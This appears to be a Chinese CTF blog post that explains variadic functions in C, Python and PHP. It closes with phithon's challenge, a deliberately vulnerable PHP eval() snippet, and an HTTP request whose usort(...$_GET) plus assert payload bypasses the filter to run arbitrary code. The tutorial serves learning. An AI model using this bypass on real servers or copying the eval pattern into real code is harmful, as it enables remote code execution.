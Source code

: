 ```yaml
---
title: 由phithon的一个题目谈可变参数函数
url: 513.html
id: 513
categories:
  - hack_ctf
date: 2017-01-20 16:11:23
tags:
  - code
  - ctf
---
```




###  可变参数函数
可变参数函数是指参数个数可变的函数,在函数声明和定义的时候并没有明确的指出函数需要的参数个数,具体有多少个参数,是在调用的时候确定的.
可变参数函数并不是什么新奇的东西,早在我们学c语言的时候,就见过,例如我们常用的printf()和scanf()函数.
printf() 的函数原型是

<!--more-->

```c
int　printf(const char* format,...);    //至少要有一个参数 
```
我们写下面的代码看一下：
```c
#include "stdio.h"
int main(){
  int  param1=1,param2=2;
printf("一个参数:%d\n",param1);
printf("一个参数:%d,第二个参数：%d\n",param1,param2);
return 0;
}
```
我们都会用这样的函数，但是却没用自己动手写过可便参数的函数．　
### 自己动手写可变参数的函数  
在c语言中要实现一个可变参函数,需要用到一下的宏
```c
void va_start( va_list arg_ptr, prev_param );
type va_arg( va_list arg_ptr, type );
void va_end( va_list arg_ptr );
```
这些宏定义在stdarg.h头文件中,所以在写可变参数函数的时候需要包含此头文件. gcc编译器使用内置宏间接实现变参宏，如#define va_start(v,l)  __builtin_va_start(v,l)。因为gcc编译器需要考虑跨平台处理，而其实现因平台而异。
 C调用约定下可使用va_list系列变参宏实现变参函数，此处va意为variable-argument(可变参数)。典型用法如下：
```c
#include <stdarg.h>
int VarArgFunc(int dwFixedArg, ...){ //以固定参数的地址为起点依次确定各变参的内存起始地址
    va_list pArgs = NULL;  //定义va_list类型的指针pArgs，用于存储参数地址
    va_start(pArgs, dwFixedArg); //初始化pArgs指针，使其指向第一个可变参数。该宏第二个参数是变参列表的前一个参数，即最后一个固定参数
    int dwVarArg = va_arg(pArgs, int); //该宏返回变参列表中的当前变参值并使pArgs指向列表中的下个变参。该宏第二个参数是要返回的当前变参类型
    //若函数有多个可变参数，则依次调用va_arg宏获取各个变参
    va_end(pArgs);  //将指针pArgs置为无效，结束变参的获取
    /* Code Block using variable arguments */
}
//可在头文件中声明函数为extern int VarArgFunc(int dwFixedArg, ...);，调用时用VarArgFunc(FixedArg, VarArg);
```
如下函数实现n个整数相加(n>=1),但是定义函数之前并不知道到底是几个数相加,代码如下
```c
int sum(int n, ...)  //第一个参数表明有可变参数有多少个相加  
{
    va_list ap;
    va_start(ap, n);
    int sum = 0;
    while(n--)
        sum += va_arg(ap, int);
    va_end(ap);
    return sum;
}
```
### python 中的可变参数函数
python中定义函数,可以使用*args和**kwargs将不定量的参数传递给一个函数,*args发送一个非键值对的可变数量的参数列表给一个函数，**kwargs允许你将不定长度的键值对(key,value), 作为参数传递给一个函数。
例子如下:
```python
#!/usr/bin/python 
#-*-coding:utf-8-*-  
def function1(arg1,arg2,arg3):
    # print "function1"
    print "arg1:",arg1
    print "arg2:",arg2
    print "arg3:",arg3
def function2(*args):
    for arg in args:
        print "arg from args:",arg 
def function3(**kwargs):
    for key,value in kwargs.items():
        print "{key}=={value}".format(key=key,value=value)


function1("one","two","three")
args=("one","two","three")
function2(*args)
kwargs={"1":"one","2":"two"}
function3(**kwargs)
```
最后的输出:
```bash
arg1: one
arg2: two
arg3: three
arg from args: one
arg from args: two
arg from args: three
1==one
2==two
```
###  php中的可变参函数 
php5.6引入了一个新特性,PHP中可以使用 `func(...$arr)`这样的方式，将`$arr`数组展开成多个参数，传入func函数。[Manual](http://php.net/manual/zh/migration56.new-features.php)
```php

<?php
function f($req, $opt = null, ...$params) {
    // $params 是一个包含了剩余参数的数组
    printf('$req: %d; $opt: %d; number of params: %d'."\n",
           $req, $opt, count($params));
}
f(1);
f(1, 2);
f(1, 2, 3);
f(1, 2, 3, 4);
f(1, 2, 3, 4, 5);
?>
```
最后的输出:
```bash
$req: 1; $opt: 0; number of params: 0
$req: 1; $opt: 2; number of params: 0
$req: 1; $opt: 2; number of params: 1
$req: 1; $opt: 2; number of params: 2
$req: 1; $opt: 2; number of params: 3
```
### 最后来看phithon的题目:
```php
<?php
$param = $_REQUEST['param'];
if(strlen($param)<17 && stripos($param,'eval') === false && stripos($param,'assert') === false) {
  eval($param);
}
?> 
```
###### 要求必须getshell  
phithon 给出的标准答案是:
```
POST /index.php?1[]=test&1[]=var_dump($_SERVER);&2=assert HTTP/1.1
Host: localhost:8081
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

param=usort(...$_GET); 
```
$_GET变量 被展开为两个参数 ['test','phpinfo();']和assert,传入usort函数.usort函数第二个参数是回调函数assert,执行了第一个参数中的phpinfo(). 这样就可以达到getshell的效果.

### reference
[https://www.leavesongs.com/PHP/bypass-eval-length-restrict.html](https://www.leavesongs.com/PHP/bypass-eval-length-restrict.html)

[http://www.cnblogs.com/clover-toeic/p/3736748.html](http://www.cnblogs.com/clover-toeic/p/3736748.html)

